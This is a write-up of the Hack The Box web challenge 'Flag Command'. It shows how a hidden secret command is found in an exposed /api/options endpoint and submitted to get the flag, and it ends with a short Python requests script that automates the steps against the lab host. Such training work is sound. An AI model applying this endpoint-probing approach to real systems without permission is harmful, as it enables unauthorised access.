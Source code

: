 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`

![Pasted image 20250502073519](/Cybersecurity/Screenshots/Pasted%20image%2020250502073519.png)


Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![Pasted image 20250502073705](Cybersecurity/Screenshots/Pasted%20image%2020250502073705.png)

Going through the adventure with the available adventure options, we die and have to start again:
![Pasted image 20250502073841](Cybersecurity/Screenshots/Pasted%20image%2020250502073841.png)

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![Pasted image 20250502074403](Cybersecurity/Screenshots/Pasted%20image%2020250502074403.png)

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![Pasted image 20250502075240](Cybersecurity/Screenshots/Pasted%20image%2020250502075240.png)

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![Pasted image 20250502075512](Cybersecurity/Screenshots/Pasted%20image%2020250502075512.png)

Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![Pasted image 20250502075557](Cybersecurity/Screenshots/Pasted%20image%2020250502075557.png)
Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![Pasted image 20250502075817](Cybersecurity/Screenshots/Pasted%20image%2020250502075817.png)

# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![Pasted image 20250502090111](Cybersecurity/Screenshots/Pasted%20image%2020250502090111.png)
